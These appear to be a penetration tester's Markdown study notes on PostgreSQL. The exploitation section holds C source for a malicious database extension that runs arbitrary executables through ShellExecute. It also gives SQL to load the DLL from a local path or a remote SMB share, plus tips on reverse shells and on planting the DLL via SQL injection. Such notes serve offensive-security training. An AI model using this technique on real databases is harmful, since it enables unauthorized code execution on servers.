

>[!info]
> PostgreSQL, also known as Postgres, is a free and open-source relational database management system emphasizing extensibility and SQL compliance.


# Basic Usage

## pgAdmin

[pgAdmin](https://www.pgadmin.org/) is the most popular and feature rich Open Source administration and development platform for PostgreSQL, the most advanced Open Source database in the world.



---

# Exploitation

## [SQL Injection](../Web%20&%20Network%20Hacking/SQL%20Injection.md)

## Build a custom PostgreSQL extension

Microsoft Visual Studio code:
```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif
/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(awae);
/* this function launches the executable passed in as the first parameter in a FOR loop bound by the second parameter that is also passed*/
Datum
awae(PG_FUNCTION_ARGS)
{
	/* convert text pointer to C string */
	#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout,
	PointerGetDatum(textp)))
	/* retrieve the second argument that is passed to the function (an integer) that will serve as our counter limit*/
	int instances = PG_GETARG_INT32(1);
	for (int c = 0; c < instances; c++) {
	/*launch the process passed in the first parameter*/
	ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
}
PG_RETURN_VOID();
}

// Test is on PostgreSQL
// create or replace function local(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
// create or replace function remote(text, integer) returns void as $$\\192.168.119.120\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
// SELECT local($$calc.exe$$, 3);
// DROP FUNCTION local(text, integer);
// > del c:\awae.dll
```

>[!tip] Tip and tricks
>- Reverse shell extension code can be found in [UDF Postgres](../Web%20&%20Network%20Hacking/Reverse%20Shell%20Cheatsheet.md#UDF%20Postgres) 
>- If you can't download the DLL from anywhere and you need to directly create it using the SQL Injection, use PostgreSQL [Large Objects](https://www.postgresql.org/docs/9.2/largeobjects.html) mentioned in [Reading & Writing files](../Web%20&%20Network%20Hacking/SQL%20Injection.md#Reading%20&%20Writing%20files)


---

# Misc

## Enable database logging (for researching SQL Injection vuln.)

```
$ edit postgresql.conf
...
log_statement = 'all' # none, ddl, mod, all
...
```

>Remember to restart the service. 

Log files for failed query can be found inside `pgsql_log\` 